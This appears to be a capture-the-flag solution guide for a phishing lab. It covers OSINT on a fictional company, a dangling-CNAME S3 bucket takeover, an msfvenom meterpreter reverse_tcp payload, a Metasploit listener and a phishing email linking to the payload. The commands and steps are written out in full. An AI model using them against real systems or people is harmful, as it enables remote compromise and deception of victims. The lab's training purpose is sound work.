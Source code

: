 # Luring the Catch

*Solution Guide*

## Overview

There are two components to *Luring the Catch*. First, competitors must identify a way to get an end user to click a phishing link and download a malicious file. The goal is to gain access to the end user’s computers. Once that access is obtained, the second component has competitors locate a token in a text file.

## Question 1

*What is the 8-digit hexadecimal code you received from the grading check (challenge.us) after your phishing email was successfully sent?*

Sending a successful phishing email in this challenge requires players to successfully complete  several steps which are broken out by sections below. The steps are:

1.	Complete the initial OSINT (Open-source Intelligence)
2.	Examine the broken image URL
3.	Create a payload
4.	Create an S3 (Simple Storage Bucket) bucket
5.	Set up a Metasploit listener
6.	Send the phishing email
7.	Initiate user action and receive the token

### 1. Complete the initial OSINT

The challenge instructions tell you to examine the website `fakefish.co` for clues to help you execute a successful phishing attack.

1. Login to the `kali` virtual machine using the credentials: **username:**  `user` | **password:** `tartans`.
2. Open Firefox and navigate to `https://fakefish.co` .
3. On the webpage is a border around the text "*Close-up photograph showing scale detail of our hyper realistic fish model.*" This appears to be a description for an image (alternative text). It also appears to be a broken image, since no image is displayed. Right-click on the webpage and select **Inspect**.
4. In the Inspector we see that an image failed to load. The source (`src`) of the image is `https://lure.fakefish.co/bigmouth.png`. Note this URL for further research. Close the Inspector.

![](./img/osint-04.png)

5. Continue to review the website. Under **Contact Us** is the email address: `william@fakefish.co`. This is the only email address on the website. Note this email as it will be a good initial point of contact to send the phishing email to.
6. The bottom footer on the website reads: *Created with Ubuntu Linux - The Best OS There Is!*. Note this, because it suggests the user who created this website uses Ubuntu Linux -- any payloads crafted should target that operating system.

### 2. Examine the broken image URL

1. In a terminal window, enter: `dig lure.fakefish.co`. In the returned results you see that `lure.fakefish.co` is a DNS CNAME record for `static.api.merch.codes`.

![](./img/url-01.png)

2. Open Firefox and in the navigation bar enter: `https://static.api.merch.codes`. An Error message is displayed showing access is denied to a bucket named `static`.

![](./img/url-02.png)

3. Open a new browser tab and in the navigation bar enter: `https://api.merch.codes`. The URL will redirect you to `https://s3.merch.codes` which is a MinIO Object Store. It appears that the image on the website was being served from an S3 bucket which is no longer available.

>**Key Point!**  Although the S3 bucket `static`  has been deleted, the CNAME record `lure.fakefish.co` still points to it. This is known as a *dangling CNAME record*. If you create a new publicly accessible S3 bucket named "static", you could upload files to the S3 bucket and have them be accessible using the `lure.fakefish.co` URL. In the challenge instructions you are told that users at Fake Fish Co. will not click on any link unless it has "fakefish.co" in the URL. This dangling CNAME record is how you can get them to click on your link.

### 3. Create a payload

1. On the `kali` system, run the command `ip address` to determine the IP address of your workstation. You will use this as the `LHOST` in the payload configuration.
2. In a terminal window, enter the following command to create a Metasploit payload. Make sure to replace the LHOST IP address with the address of your `kali` workstation.

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.5.5.60 LPORT=8080 -f elf > payload.elf
```

### 4. Create an S3 bucket

1. Open Firefox and navigate to `https://s3.merch.codes`.
2. Login using the credentials: **username:**  `user` | **password:** `tartans@1`.
3. In the left-hand navigation menu, click **Buckets**.

![](./img/minio-03.png)

4. Click the **Create Bucket +** button.

![](./img/minio-04.png)

5. Name the bucket "static" and click **Create Bucket**.

![](./img/minio-05.png)

6. Click the newly created "static" bucket to open it.
7. Under **Access Policy** click **Private**.

![](./img/minio-07.png)

8. The Change Access Policy window opens with a dropdown menu. Change this to **Public** and click **Set**.

![](./img/minio-08.png)

9. Click the **Browse Bucket** icon.

![](./img/minio-09.png)

10. Click the **Upload** button and then **Upload File**.
11. Select the `payload.elf` file you created, confirm it is uploaded and visible in the bucket.

### 5. Set up a Metasploit listener

1. In a terminal window, enter: `msfconsole`.
2. Once the Metasploit command line interface has loaded, enter the following parameters making sure to replace the LHOST IP address with the address of your `kali` workstation.


```bash
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.5.5.60
set LPORT 8080
set ExitOnSession false
exploit -j
```

![](./img/metasploit-02.png)

### 6. Send the phishing email

1. Open Firefox and navigate to: `mail.merch.codes`.
2. Login using the credentials: **username:** `user@merch.codes` | **password:** `tartans`.
3. Click **Compose**.
4. In the **To** section, enter `william@fakefish.co`. Recall that this is the email address you located on the website
5. In the **Subject** section, enter an appropriate subject for a phishing email (i.e., *Past Due Invoice*).
6. In the body of the email, enter text aligning with your Subject.
7. Highlight the text in the body you want to link, and then click **Insert/Edit Link** button.
8. In the **Insert/Edit Link** window, type the URL `https://lure.fakefish.co/payload.elf` and **Save**.
9. Click **Send** to send the email.

### 7. Initiate user action and receive the token

1. Open Firefox and navigate to: `challenge.us`.
2. Click **Grade Challenge**.

If you have completed the steps above correctly you will receive a message saying that the user clicked on your link. You will also receive a token which is the answer to Question 1.

*Note it may take up to one minute for the grading to complete.*

## Question 2

*What is the 8-digit hexadecimal token you found after gaining access to the targeted user's machine?*

1. If your payload was configured correctly, you should see a notice in your Metasploit listener that a session has been opened. Enter `sessions -i 1` to interact with the session.

![](./img/session-01.png)

2. At the `meterpreter` command line, enter `cd Documents`.
3. Type `ls` to list the contents of the Documents directory.
4. Type `cat BigMouth.txt` and press **Enter**.
5. The contents of the `BigMouth.txt` file are displayed. One of the lines reads "Token:". The content that follows is the answer to Question 2!

![](./img/session-05.png)